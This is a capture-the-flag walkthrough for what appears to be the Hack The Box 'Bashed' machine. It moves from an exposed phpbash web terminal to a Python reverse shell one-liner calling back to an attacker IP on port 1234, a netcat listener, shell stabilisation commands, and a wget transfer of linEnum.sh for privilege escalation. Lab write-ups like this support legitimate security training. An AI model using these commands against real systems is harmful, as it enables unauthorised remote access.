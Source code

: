 ## Exploitation

### Gaining initial foothold

Let's try digging more into /dev/phpbash.php.

![bashed terminal](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/bashed_terminal.png)

The terminal works same like a normal linux shell. So we could easily get the user flag and root string ffrom this terminal itsef using the series of commands as showen in the below image.

![user flag direct](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/user_flag_direct.png)

However if we are taking some certification exams, such methods may not help. We need to get proper revershell and then obtain the flag. so we will solve this machine by obtaining a reverse shell.

So now my first intention is to obtain a reverse shell. For this one of the method would be to run some malicious script in the terminal and get the connection to our local system via netcat.

- set up a netcat listener in our terminal on port 1234 using following command: `nc -lnvp 1234`.

- since python is available let's use python reverse shell script to gain access.
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Immediately you will land a reverse shell in your netcat listener.

![gained revershell](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/rev_shell.png)

Now let's stabilize the shell first, then we will proced further to acquire flags. Use the following commands to stabilize your shell.

```bash
    python -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Now following the same steps as before, we can acquire the user flag.

![user flag via reverse shell](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/user_flag.png)

Cool, We have the initial foothold. Now turn for privilege escalation.


### Privilege escalation

We need some privilege checker tool. I have already downloaded linEnum.sh for this purpose in my local system, now it's turn to transfer it to victim machine. for this, start the python server in the folder containing linEnum.sh and then use wget in victim machine to fetch the file.
